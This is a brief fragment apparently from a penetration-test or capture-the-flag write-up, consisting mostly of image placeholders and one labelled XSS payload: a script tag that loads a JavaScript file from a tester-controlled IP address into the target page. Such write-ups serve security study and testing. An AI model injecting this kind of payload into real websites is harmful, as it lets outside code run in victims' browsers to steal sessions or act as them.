 ![image.png](image%2013.png)

**PAYLOAD:**

```bash
<script src="http://10.2.37.37/xssex.js"></script>
```

![image.png](image%2014.png)
